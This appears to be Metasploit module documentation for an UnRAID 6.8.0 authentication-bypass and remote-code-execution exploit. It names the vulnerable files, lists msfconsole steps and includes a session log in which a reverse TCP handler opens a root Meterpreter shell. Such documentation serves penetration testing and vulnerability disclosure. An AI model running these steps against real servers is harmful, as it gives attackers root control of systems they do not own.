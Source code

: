## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password. Only UnRAID 6.8.0 is affected.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_auth_bypass_exec`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

### TARGETURI : The URI of the Unraid application

## Scenarios

```
msf > use exploit/linux/http/unraid_auth_bypass_exec.rb
msf exploit(linux/http/unraid_auth_bypass_exec) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf exploit(linux/http/unraid_auth_bypass_exec) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf exploit(linux/http/unraid_auth_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100
[+] Request timed out, OK if running a non-forking/blocking payload...

meterpreter > getuid
Server username: root (0)
```
